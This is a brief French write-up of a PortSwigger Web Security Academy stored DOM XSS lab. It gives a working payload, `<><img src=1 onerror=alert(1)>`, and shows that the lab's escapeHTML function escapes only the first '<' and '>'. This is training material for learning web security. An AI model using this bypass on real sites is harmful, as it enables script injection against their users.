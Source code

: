 # Lab

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored

## Payload

Dans le body du commentaire : `<><img src=1 onerror=alert(1)>`

La fonction JS escapeHTML ne remplace que les premières occurences de `<` et `>` par `&lt;` et `&gt;` respectivement. 

```js
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}
```

Par exemple :

```js
escapeHTML('<><img src=1 onerror=alert(1)>')
// => "&lt;&gt;<img src=1 onerror=alert(1)>"
```